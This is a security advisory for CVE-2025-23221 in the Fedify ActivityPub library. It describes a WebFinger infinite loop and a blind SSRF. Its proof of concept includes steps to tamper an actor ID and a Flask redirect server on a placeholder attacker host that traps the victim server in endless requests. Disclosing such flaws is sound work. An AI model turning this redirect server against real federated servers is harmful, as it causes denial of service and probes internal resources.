 ```yaml
---
description: CVE-2025-23221 Medium severity. Infinite loop and Blind SSRF found inside the WebFinger mechanism
title: Fedify WebFinger Infinite Loop and Blind SSRF 
date_published: "2025-01-20"
last_updated: "2025-01-20"
xray_id:
vul_id: CVE-2025-23221
cvss: 5.4
severity: medium
discovered_by: Natan Nehorai
type: vulnerability
---
```

## Summary
This vulnerability allows a user to maneuver the Webfinger mechanism to perform a GET request to any internal resource on any Host, Port, URL combination regardless of present security mechanisms, and forcing the victim’s server into an infinite loop causing Denial of Service.
Moreover, this issue can also be maneuvered into performing a Blind SSRF attack.



## Component

[@fedify/fedify](https://www.npmjs.com/package/@fedify/fedify)



## Affected versions

(,1.0.13]

(,1.1.10]

(,1.2.10]

(,1.3.3]



## Description

The Webfinger endpoint takes a remote domain for checking accounts as a feature, however, as per the ActivityPub spec (https://www.w3.org/TR/activitypub/#security-considerations), on the security considerations section at B.3, access to Localhost services should be prevented while running in production.

The **lookupWebFinger** function, responsible for returning an actor handler for received actor objects from a remote server, can be abused to perform a Denial of Service (DoS) and Blind SSRF attacks while attempting to resolve a malicious actor’s object.

## PoC

1. In order to show a use case of the vulnerability, we can use the demo app presented at this URL: https://github.com/dahlia/microblog
2. We will create two machines, victim and attacker, each one on a different server with different domains.

**_Victim Machine_**



1. Create a new instance (we tested on ubuntu’s latest version), and update the package manager.

   

2. Install a Deno server:
  `
  curl -fsSL https://deno.land/install.sh | sh
  `
  `
  source ~/.bashrc
  `
  `
  deno --version #check deno is working
  `

  

3. Pull the git repository of the victim blog app:
  `
  git clone https://github.com/dahlia/fedify.git
  `

  

4. Modify the federation object to remove signature checks for the sake of easy testing:
  On file **_/examples/blog/federation/mod.ts_** edit the **_createFederation<void>_** object the following attribute: **_skipSignatureVerification: true_**.

  

5. Change into the blog app directory ( /examples/blog ) and run the app:
  `
  deno task preview
  `

  

6. Surf to the application on the browser, and register a user on the app.

   

**_Attacker Machine_**



1. Create a new instance (we tested on ubuntu’s latest version), and update the package manager.

   

2. Install NVM in order to install the latest version of NPM and NODEJS (and source current shell to check it worked):
  `
  curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.40.1/install.sh | bash
  `
  `
  source ~/.bashrc
  `
  `
  nvm list-remote
  `

  

3. Install the latest stable version:
  `
  nvm install {latest_ver} #for example: v20.10.0
  `
  `
  source ~/.bashrc
  `
  `
  npm -v #check it works
  `
  `
  node -v #check it works
  `

  

4. Download the attacker app repository:
  `
  git clone https://github.com/dahlia/microblog.git
  `

  

5. Disable request signature validations:
  Edit the **_/src/federation.ts_** file and add a **_skipSignatureVerification: true_** attribute to the **_createFederation_** object.

  

6. Modify the **_/src/federation.ts_** file and tamper with the Person object on the actor dispatcher ( **_setActorDispatcher(\"/users/{identifier}\"_** ) - change the actor ID attribute **_“id: ctx.getActorUri(identifier)_**” into “**_id: new URL(‘http://<ATTACKER_MACHINE_DOMAIN>:1337/users/enterloop’)_**”.

   

7. Install Python flask and create the Python Flask redirect server:
  `
  apt update
  `
  `
  apt install python3-flask
  `

```python
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/health')
def health():
    return \"hello\", 200

@app.route('/.well-known/webfinger')
def ssrfinger():
    return redirect(\"http://<ATTACKER_MACHINE_DOMAIN>:1337/endlessloop\")

@app.route('/endlessloop')
def endlessloop():
    return redirect(\"http://<ATTACKER_MACHINE_DOMAIN>:1337/endlessloop\")

if __name__ == '__main__':
    app.run(debug=True,host='0.0.0.0' ,port=1337)
```


8. Run the python server and attempt to reach the “**_/health_**” path to see the server functions as expected.

   

9. Read the **_README.txt_** file on the attacker app and follow the instructions on how to execute the app.

   

10. Surf the app on the browser and attempt to follow the federated user on the victim’s machine.

    

11. Send the “follow” request and watch the victim app continue to query the redirect server infinitely (It is possible to repeat this step multiple times causing multiple loops).



## Vulnerability Mitigations

No mitigations are provided for this vulnerability.



## References

[GHSA](https://github.com/fedify-dev/fedify/security/advisories/GHSA-c59p-wq67-24wx)